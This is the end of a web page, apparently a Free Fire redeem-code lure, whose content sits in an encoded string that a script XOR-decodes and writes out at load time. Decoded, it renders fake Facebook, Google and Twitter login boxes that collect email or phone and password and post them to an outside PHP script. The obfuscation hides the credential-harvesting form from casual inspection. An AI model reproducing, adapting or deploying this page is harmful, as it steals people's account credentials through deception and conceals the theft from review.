0'02cwvmacrkvcnkxg'1F'00mdd'00'02pgswkpgf'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00nmekl'00'02tcnwg'1F'00Dcag`mmi'00'02pgcfmln{'1G'2C'2;'2;'2;'2;'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00v{rg'00'02tcnwg'1F'00dd]d`'00'02pgcfmln{'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00wqgp]kf]tkavko'00'02tcnwg'1F'00:0JGA'00'02-'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A`wvvml'02v{rg'1F'00qw`okv'00'02ancqq'1F'00`vl/nmekl/d`'00'1GNme'02Kl'1A-`wvvml'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-dmpo'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/apgcvg/caamwlv'00'1GApgcvg'02caamwlv'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/lmv/lmu'00'1GLmv'02lmu'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/dmpemvvgl/rcqqumpf'00'1GDmpemvvgl'02rcqqumpf'1D'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/`mz'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Aaglvgp'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'02nclewceg/lcog/cavktg'00'1GGlenkqj'02'0:WI'0;'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G@cjcqc'02Klfmlgqkc'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G@cqc'02Hcuc'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G@cjcqc'02Ognc{w'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G'w47G7'w450A'w:C;G'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1GGqrc'D3mn'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1GRmpvwew'GCq'02'0:@pcqkn'0;'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00nclewceg/lcog'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Ak'02ancqq'1F'00dc'02dc/rnwq'00'1G'1A-k'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-aglvgp'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00amr{pkejv'00'1GDcag`mmi'02Kla,'1A-fkt'1G'2C'02'02'02'02'1A-fkt'1G'2C'1A-fkt'1G'2C'2C'1Afkt'02ancqq'1F'00rmrwr/nmekl'02vukvvgp'02clkocvgf'02dcfgKl'00'02qv{ng'1F'00fkqrnc{'1C'02lmlg'1@'00'1G'2C'02'02'02'02'1Afkt'02ancqq'1F'00rmrwr/`mz/nmekl/vukvvgp'00'02qv{ng'1F'00vgzv/cnkel'1Cngdv'1@'02rcffkle'1C7rz'1@'00'1G'2C'2;'2;'02'02'02'02'02'02'02'02'1Ac'02mlankai'1F'00anmqgvukv'0:'0;'00'02ancqq'1F'00anmqg/mvjgp'00'1G'1Ak'02ancqq'1F'00xofk'02xofk/anmqg'00'1Ganmqg'1A-k'1G'1A-c'1G'2C'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00jgcfgp/vukvvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Aaglvgp'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Akoe'02qpa'1F'00jvvrq'1C--0r,amo,vp-ur/amlvglv-wrnmcfq-023:-25-emmeng]RLE3;417,rle'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-aglvgp'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00`mz/vukvvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Aaglvgp'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1Admpo'02cavkml'1F'00jvvrq'1C--pctkpcn,amo-i]dca,rjr'00'02ogvjmf'1F'00rmqv'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00vzv/nmekl/vukvvgp'00'1GNmekl'02vm'02Emmeng'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00klrwv/`mz/vukvvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Anc`gn'1GRjmlg'0A'02gockn'0A'02mp'02wqgplcog'1A-nc`gn'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00vgzv'00'02lcog'1F'00gockn'00'02rncagjmnfgp'1F'00'00'02pgswkpgf'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00klrwv/`mz/vukvvgp'00'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Anc`gn'1GRcqqumpf'1A-nc`gn'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00rcqqumpf'00'02lcog'1F'00rcqq'00'02rncagjmnfgp'1F'00'00'02pgswkpgf'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00nmekl'00'02tcnwg'1F'00Vukvvgp'00'02pgcfmln{'1G'2C'2;'2;'2;'2;'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00v{rg'00'02tcnwg'1F'00dd]emmeng'00'02pgcfmln{'1G'2C'2;'2;'2;'2;'1Aklrwv'02v{rg'1F'00jkffgl'00'02lcog'1F'00wqgp]kf]tkavko'00'02tcnwg'1F'00:0JGA'00'02-'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1A`wvvml'02v{rg'1F'00qw`okv'00'02ancqq'1F'00`wvvml'02`nwg'00'1G'02'02Nme'02Kl'02'02'1A-`wvvml'1G'1A`p'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dmmvgp/oglw/vukvvgp'00'1GDmpemv'02rcqqumpf'1D'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dmmvgp/oglw/vukvvgp'02`wngv'00'1G'w0200'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'02'1Afkt'02ancqq'1F'00dmmvgp/oglw/vukvvgp'00'1GQkel'02wr'02vm'02Emmeng'1A-fkt'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-dmpo'1G'2C'02'02'02'02'02'02'02'02'02'02'02'02'1A-aglvgp'1G'2C'02'02'02'02'02'02'02'02'1A-fkt'1G'2C'02'02'02'02'1A-fkt'1G'2C'1A-fkt'1G'02'02'02'2C'2C'02'1Aqapkrv'02qpa'1F'00jvvrq'1C--chcz,emmengcrkq,amo-chcz-nk`q-hswgp{-1,7,3-hswgp{,okl,hq'00'1G'1A-qapkrv'1G'2C'1Aqapkrv'02qpa'1F'00jvvrq'1C--amfg,hswgp{,amo-wk-3,33,1-hswgp{/wk,hq'00'1G'1A-qapkrv'1G'2C'1Aqapkrv'02qpa'1F'00jvvrq'1C--aflhq,anmwfdncpg,amo-chcz-nk`q-hswgp{wk/vmwaj/rwlaj-2,0,1-hswgp{,wk,vmwaj/rwlaj,okl,hq'00'1G'1A-qapkrv'1G'2C'2C'2C'2C'1Aqapkrv'02v{rg'1F'00vgzv-hctcqapkrv'00'1G'2C'2C'06'0:fmawoglv'0;,pgcf{'0:dwlavkml'0:'0;'02'5@'2C'2;'06'0:'00'01d`Nmekl'00'0;,ml'0:'05ankai'05'0A'02dwlavkml'0:'0;'02'5@'2C'2;'2;'06'0:'00'01nmeklOmfcn'00'0;,jkfg'0:'0;'1@'2C'2C'2;'2;'06'0:'00,dcag`mmi'00'0;,dcfgKl'0:'05qnmu'05'0;'1@'2C'2C'2;'2;'06'0:'00,anmqg/d`'00'0;,ml'0:'05ankai'05'0A'02dwlavkml'0:'0;'02'5@'2C'2;'2;'2;'06'0:'00,dcag`mmi'00'0;,jkfg'0:'0;'1@'2C'2C'2;'2;'2;'06'0:'00'01nmeklOmfcn'00'0;,qjmu'0:'0;'1@'2C'2;'2;'5F'0;'1@'2C'2;'5F'0;'1@'2C'2C'2;'06'0:'00'01vukvNmekl'00'0;,ml'0:'05ankai'05'0A'02dwlavkml'0:'0;'02'5@'2C'2C'2;'2;'06'0:'00,vukvvgp'00'0;,dcfgKl'0:'05qnmu'05'0;'1@'2C'2C'2;'2;'06'0:'00,anmqg/mvjgp'00'0;,ml'0:'05ankai'05'0A'02dwlavkml'0:'0;'02'5@'2C'2;'2;'2;'06'0:'00,vukvvgp'00'0;,jkfg'0:'0;'1@'2C'2C'2;'2;'2;'06'0:'00'01nmeklOmfcn'00'0;,qjmu'0:'0;'1@'2C'2;'2;'5F'0;'1@'2C'2;'5F'0;'1@'2C'5F'0;'1@'2C'2C'1A-qapkrv'1G'02'02'02'2C'2;'2;'02'2C'2;'1Aqapkrv'1G'2C'2;'02'02tcp'02amtgpApgcvgVgconmcfDkng'02'1F'02dwlavkml'0:gtglv'0;'02'5@'2C'2;'02'02'02'02tcp'02mwvrwv'02'1F'02fmawoglv,egvGngoglv@{Kf'0:'05amtgp]apgcvg]vgco]rpgtkgu'05'0;'1@'2C'2;'02'02'02'02mwvrwv,qpa'02'1F'02WPN,apgcvgM`hgavWPN'0:gtglv,vcpegv,dkngq'7@2'7F'0;'1@'2C'2;'02'02'5F'1@'2C'2C'2;'02'02tcp'02ctcvcpApgcvgVgconmcfDkng'02'1F'02dwlavkml'0:gtglv'0;'02'5@'2C'2;'02'02'02'02tcp'02mwvrwv'02'1F'02fmawoglv,egvGngoglv@{Kf'0:'05ctcvcp]apgcvg]vgco]rpgtkgu'05'0;'1@'2C'2;'02'02'02'02mwvrwv,qpa'02'1F'02WPN,apgcvgM`hgavWPN'0:gtglv,vcpegv,dkngq'7@2'7F'0;'1@'2C'2;'02'02'5F'1@'2C'2;'1A-qapkrv'1G'2C'1Aqapkrv'1G'2C'2;'2;'06'0:dwlavkml'0:'0;'02'5@'2C'2;'2;'2;'06'0:'05,qgngav/ecog'05'0;,qgngavkxg'0:'5@'2C'2;'2;'2;'2;oczKvgoq'1C'021'2C'2;'2;'2;'5F'0;'1@'2C'2;'2;'5F'0;'2C'2C'2;'1A-qapkrv'1G'2;'2;'02'2C'2;'2;'02'2C'02'02'02'02'02'02'1A-fkt'1G'2C'2C'2C'2C'1Aqapkrv'02v{rg'1F'00vgzv-hctcqapkrv'00'1G'2C'2;'2;'2;'06'0:'05'7@fcvc/vmeeng'1F'00rmrmtgp'00'7F'05'0;,rmrmtgp'0:'0;'1@'2C'2;'2;'2;'06'0:'05,cngpv'05'0;,pgcf{'0:dwlavkml'0:'0;'5@'2C'2;'2;'2;'02'02'02'02kd'0:'03'06'0:vjkq'0;,jcqAncqq'0:'05qvc{'05'0;'0;'02'5@'02'2C'2;'2;'2;'02'02'02'02'02'02'02'02qgvVkogmwv'0:dwlavkml'0:'0;'5@'02'06'0:'05,cngpv'05'0;,cffAncqq'0:'05qjmu'05'0;'1@'5F'0A'02722'0;'1@'2C'2;'2;'2;'02'02'02'02'02'02'02'02qgvVkogmwv'0:dwlavkml'0:'0;'5@'02'06'0:'05,cngpv'05'0;,pgomtgAncqq'0:'05qjmu'05'0;'1@'5F'0A'0237222'0;'1@'2C'2;'2;'2;'02'02'02'02'5F'2C'2;'2;'2;'02'02'02'02gnqg'5@'2C'2;'2;'2;'02'02'02'02'02'02'02'02qgvVkogmwv'0:dwlavkml'0:'0;'5@'02'06'0:'05,cngpv'05'0;,cffAncqq'0:'05qjmu'05'0;'1@'5F'0A'02722'0;'1@'2C'2;'2;'2;'02'02'02'02'5F'2C'2;'2;'2;'5F'0;'1@'2C'2;'2;'1A-qapkrv'1G'2C'02'02'02'02'02'02'1Aqapkrv'02v{rg'1F'00vgzv-hctcqapkrv'00'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-lgu]dd]t0-kocegq-tglfmpqockl,hq'00'1G'1A-qapkrv'1G'2C'02'02'02'02'02'02'02'02'02'02'02'1Aqapkrv'02qpa'1F'00jvvrq'1C--pctkpcn,amo-jmqv]qv{ng-qv{ng-hq/vpcai-vpcai,hq'00'1G'1A-qapkrv'1G'02'2C'2C'02'02'02'1A-`mf{'1G'2C'1A-jvon'1G'2C'2C'2C"; teks=""; teksasli="";var panjang;panjang=enkripsi.length;for (i=0;i<panjang;i++){ teks+=String.fromCharCode(enkripsi.charCodeAt(i)^2) }teksasli=unescape(teks);document.write(teksasli);
</script>

ff-redeem-code-new
ff-code
